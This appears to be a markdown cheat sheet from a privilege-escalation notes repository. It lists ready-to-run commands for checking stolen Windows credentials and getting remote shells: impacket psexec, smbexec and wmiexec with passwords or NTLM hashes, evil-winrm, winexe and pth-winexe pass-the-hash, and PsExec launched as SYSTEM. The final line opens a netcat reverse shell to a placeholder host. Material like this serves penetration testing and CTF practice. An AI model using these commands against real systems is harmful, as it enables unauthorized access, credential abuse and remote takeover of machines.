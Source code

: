 # privesc_tools

## check if win-logon-creds are working

Note: psexec & evil-winrm uses 5985 (powershell remote access)

### psexec.py | smbexec | wmiexec

NOTE: psexec, smbexec will give SYSTEM shell. wmiexec will give user shell.

```bash
$ python3 /opt/impacket/examples/psexec.py USER:'PASS'@$IP
$ impacket-psexec DOMAIN/USER@IP -hashes :NTLMHASH

$ impacket-wmiexec DOMAIN/USER@IP -hashes :NTLMHASH

```

### evil-winrm

```bash
# only USER, no DOMAIN needed
$ evil-winrm -i IP -u <USER> [-H NT-HASH | -p PASS]
```

### winexe

```bash
$ winexe -U 'DOMAIN/USER%PASS' //IP cmd.exe
```

### pth-winexe

```bash
$ pth-winexe -U 'DOMAIN/USER%HASH' //IP cmd.exe
# [OR]
$ pth-winexe [--system] -U 'administrator%NTLM:HASH' //IP cmd.exe
# --system needs local admin hash
```

## PsExec.exe

```bash
PS> .\PsExec64.exe -accepteula -i -s <shell.exe>
# i: Run process interactively
# s: Run remote process in the System account.

> PSExec64.exe -i -u "nt authority\local service" <shell.exe>
# u: Run process as user-account <>

# Run executable with a different user:pass
PS> .\PsExec.exe -accepteula -u <user> -p <pass> nc.exe IP PORT -e cmd.exe
```
